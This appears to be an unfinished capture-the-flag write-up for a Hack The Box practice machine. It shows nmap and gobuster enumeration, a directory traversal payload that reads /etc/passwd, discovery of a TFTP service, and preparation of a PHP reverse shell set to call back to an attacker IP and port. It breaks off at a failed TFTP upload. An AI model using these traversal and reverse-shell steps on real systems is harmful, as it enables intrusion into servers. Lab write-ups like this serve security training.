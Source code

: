 ## ----------->> PathFinder <<-----------

// Start Enumerate with nmap 

    $ nmap -sC -Pn -A -sV 10.10.10.55 -p-
    Nmap scan report for 10.10.10.55
    Host is up (0.36s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was http://10.10.10.55/?file=index.php

// navigating to http://10.10.10.55 redirects us to http://10.10.10.55/?file=index.php
    
// Direction search with gobuster

    $ gobuster dir -u http://10.10.10.55/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
    http://10.10.10.55/.hta                 [Size: 276]
    http://10.10.10.55/.htaccess            [Size: 276]
    http://10.10.10.55/.htpasswd            [Size: 276]
    http://10.10.10.55/fonts                [Size: 310] [--> http://10.10.10.55/fonts/]
    http://10.10.10.55/images               [Size: 311] [--> http://10.10.10.55/images/]
    http://10.10.10.55/index.php            [Size: 304] [--> http://10.10.10.55/]       
    http://10.10.10.55/server-status        [Size: 276]    

// not much on gobuster so we open burpsuite and sent the request to reapter 
// then we change input to ../../../../etc/passwd
![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Included/1.png)

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    mike:x:1000:1000:mike:/home/mike:/bin/bash
    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin

// As we can see the server is vulnerable for Directory Traversal , if we can upload file we could call him and get shell.
// since we dont have a way to upload file at this time we will continue enumerate
// when waching close on the passwd users we can see there is a tftp user
    
    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
        
// since we didnt discover any tftp service with nmap lets try UDP scan

    $ sudo nmap -sU -v 10.10.10.55
    Nmap scan report for 10.10.10.55
    Host is up (0.15s latency).
    Not shown: 995 closed ports
    PORT      STATE         SERVICE
    69/udp    open|filtered tftp
    764/udp   open|filtered omserv
    16402/udp open|filtered unknown
    34861/udp open|filtered unknown
    37144/udp open|filtered unknown
    
// There is really tftp service on port 69
// lets try to connect tftp

    $ tftp 10.10.10.55 69
    tftp> ?
    Commands may be abbreviated.  Commands are:

    connect 	connect to remote tftp
    mode    	set file transfer mode
    put     	send file
    get     	receive file
    quit    	exit tftp
    verbose 	toggle verbose mode
    trace   	toggle packet tracing
    status  	show current status
    binary  	set mode to octet
    ascii   	set mode to netascii
    rexmt   	set per-packet retransmission timeout
    timeout 	set total retransmission timeout
    ?       	print help information
// Ok, we have connection to server to Upload/Download files!, But, how can we know which directory the file uploaded will be stored ?
// again we will check passwd

    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
// /var/lib/tftpboot

### -----Foothold------

// First lets make php reverse shell to upload

    $ cp /usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php php-reverse-shell.php
// Chane IP and Port

    $ nano php-reverse-shell.php
    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.7';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...
--------------------------------------------------------------------
---ERROR---
TFTP put 
TIMED OUT
// will come back later


